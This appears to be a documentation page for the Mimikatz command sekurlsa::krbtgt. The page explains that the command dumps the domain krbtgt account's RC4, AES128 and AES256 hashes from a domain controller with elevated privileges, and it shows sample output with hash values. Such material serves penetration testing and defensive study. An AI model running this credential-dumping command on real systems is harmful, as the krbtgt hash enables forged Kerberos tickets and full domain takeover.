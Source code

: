 # krbtgt

It retrieves the krbtgt RC4 (i.e. NT hash), AES128 and AES256 hashes.

{% hint style="warning" %}
This command must be run on a domain controller
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::krbtgt

Current krbtgt: 5 credentials
         * rc4_hmac_nt       : b5348d0a20a24a67ff544146a09cd292
         * rc4_hmac_old      : b5348d0a20a24a67ff544146a09cd292
         * rc4_md4           : b5348d0a20a24a67ff544146a09cd292
         * aes256_hmac       : 3ab45a59d37a5a647e0d7d9d942d0e8b77911cff0bd95b16e203cd9503ccdd96
         * aes128_hmac       : 3c8fc2890213fb9be3d6fb139b1be881
```
